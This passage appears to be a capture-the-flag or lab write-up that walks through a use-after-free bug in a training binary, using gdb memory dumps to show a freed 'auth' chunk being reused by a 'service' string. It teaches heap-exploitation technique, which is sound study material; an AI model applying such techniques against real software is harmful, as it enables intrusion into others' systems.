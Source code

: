 As expected, another chunk of memory is allocated to store *another* `struct auth`, and our string 'swjs' is copied to memory address `0x804c018`.
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0000000a
0x804c010:	0x00000000	0x00000011	0x736a7773	0x0000000a
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
```

Now, the pointer variable `auth` shows the new allocated memory address `0x804c018`.
```
(gdb) c
Continuing.
[ auth = 0x804c018, service = (nil) ]
```

If I were to `reset`, the memory chunk at address `0x804c018` will be freed. But the pointer variable `auth` still points to it. It points to the freed memory. Remember this. This is a big clue right here.
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0000000a
0x804c010:	0x00000000	0x00000011	0x00000000	0x0000000a
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
[ auth = 0x804c018, service = (nil) ]
```

Let me input `service zzzyyyxxx` into the program. Pay atttention to the address of the memory chunk allocated for it. It is stored in the memory chunk starting from address `0x804c018`. Hmmm, wait a minute. Isn't that the same memory chunk that pointer variable `auth` points to? Hell yeah it is! Since the memory was freed earlier, it can be used by `strdup` to store the string ` zzzyyyxxx` given as input with `service`. This is the stale heap pointer vulnerability the hint refers to. Both pointer variables `auth` and `service` point to the same chunk of memory.
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0000000a
0x804c010:	0x00000000	0x00000011	0x7a7a7a20	0x78797979
0x804c020:	0x000a7878	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
```
